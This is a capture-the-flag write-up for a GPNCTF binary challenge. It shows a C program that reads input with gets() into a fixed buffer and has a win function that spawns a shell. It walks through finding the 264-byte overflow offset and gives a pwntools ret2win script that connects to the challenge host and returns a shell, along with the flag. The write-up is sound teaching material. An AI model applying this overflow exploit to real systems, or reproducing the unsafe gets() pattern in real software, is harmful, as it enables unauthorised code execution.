



# Never gonna give you UB

> <p>Can you get this program to do what you want?</p>
> <p><a href="attachments/never-gonna-give-you-ub.tar.gz">never-gonna-give-you-ub.tar.gz</a></p>

## Path to Flag

We are given the C version of the program

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void scratched_record() {
	printf("Oh no, your record seems scratched :(\n");
	printf("Here's a shell, maybe you can fix it:\n");
	execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
	printf("Song rater v0.1\n-------------------\n\n");
	char buf[0xff];
	printf("Please enter your song:\n");
	gets(buf);
	printf("\"%s\" is an excellent choice!\n", buf);
	return 0;
}
```
The program vulnerability is quite straightforward, which is using `gets()` to receive the user input.
Which makes this chall a basic ret2win, which we can just overwrite the return address by buffer overflow.

So, I Decide to find out the `pattern_offset` to determine the number of bytes needed using, and start off with creating a string much more than the buffer size (255).



Then, I found the memory address stored in the stack pointer register ($rsp), and get the `pattern_offset`, which is 264 on `0x4133254164254148`



Lastly, created a script to connect to the remote host and complete the chall

```
#/usr/bin/env python3

from pwn import *

host = 'sweet-dreams-are-made-of-this--shaggy-7847.ctf.kitctf.de'
port = 443
songrater = context.binary = ELF('./song_rater')

context.update(terminal=['tmux', 'new-window'], os='linux', arch='amd64')

connection = remote(host, port, ssl=True)

getshell = songrater.symbols.scratched_record
log.info(f"Address of scratched_record: {hex(getshell)}")

payload = b"A" * 264
payload += p64(getshell)

connection.sendline(payload)
connection.interactive()
```



`GPNCTF{G00d_n3w5!_1t_l00ks_l1ke_y0u_r3p41r3d_y0ur_disk...}`